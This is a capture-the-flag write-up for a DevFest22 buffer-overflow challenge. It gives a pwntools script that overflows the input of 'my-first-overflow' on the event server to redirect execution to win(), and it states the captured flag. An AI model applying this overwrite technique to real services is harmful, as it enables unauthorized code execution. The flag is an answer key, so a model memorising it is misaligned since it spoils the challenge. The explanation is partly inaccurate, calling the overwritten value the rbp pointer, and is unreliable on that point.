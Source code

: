  - After that, using connection tools, send the character sequence generated followed by the address we want to overwrite the `eip` pointer with. We can create a python script for that : 

```python
#! /usr/bin/python3
from pwn import *

HOST = 'devfest22-cybersec.gdgalgiers.com'
PORT = 1400

p = remote(HOST, PORT)

p.sendlineafter(b'Enter your input: ', b'aaaabaaacaaadaaaeaaafaaagaaahaaa\x99\x11\x00\x00\x00\x00\x00\x00')
p.interactive()
```

After executing that code, first, the pointers will be overwrited of the `my-first-overflow` program but we will find that the `rbp` pointer will be overwrittend with our specific address, this will make him jump to the `win()` instead of returning to the main function, and after execution prints out the flag.



## Flag

DevFest22{BuffER_overfL0Ws_4rE_CO00L}